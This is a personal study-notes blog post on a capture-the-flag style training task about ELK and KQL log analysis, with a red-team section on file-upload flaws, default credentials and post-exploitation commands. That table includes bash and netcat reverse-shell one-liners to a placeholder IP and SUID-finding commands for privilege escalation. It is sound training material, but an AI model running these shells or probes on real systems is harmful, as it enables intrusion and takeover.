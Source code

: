 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.
### Operation Blue
Log analysis is crucial to blue-team work.  
- ELK: Elasticsearch, Logstash, and Kirbana  

ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
- Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
- KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).

| Query/Syntax | Description | Example |
| :---: | :---: | :---: |
| " " | Search for specific values. **Exact** search. | "TryHackMe" |
| ** | Wildcard for similar matches to value provided | United** (returns United Kingdom and United States) |
| OR | Shows documents that contain **either** value provided | "United Kingdom" OR "England" |
| AND | Shows documents that contain **both** values provided | "Ben" AND "25" |
| : | Search a specific field in the document. Field availability depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
- RCE: Uploading a script that the server runs giving control to the attacker.  
- XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

| Username | Password |
| :---: | :---: |
| admin | admin |
| administrator | administrator |
| admin@domainname | admin |
| guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

| Command | Use |
| :---: | :---: |
| ls | Gives idea of files and directories around you |
| cat | Outputs contents of documents like text files |
| pwd | Gives idea of where in system you are |
| whoami | Lets you know who you are |
| hostname | System name and potentially its role |
| uname -a | System info like OS, kernel version, etc. |
| id | Shows any groups current user is assigned to |
| ifconfig | Network setup info |
| bash -i >& /dev/tcp/\<your-ip>/\<port> 0>&1 | Begins reverse shell via bash |
| nc -e /bin/sh \<your-ip> \<port> | Begin reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
| find / -writable -type f 2>/dev/null \| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

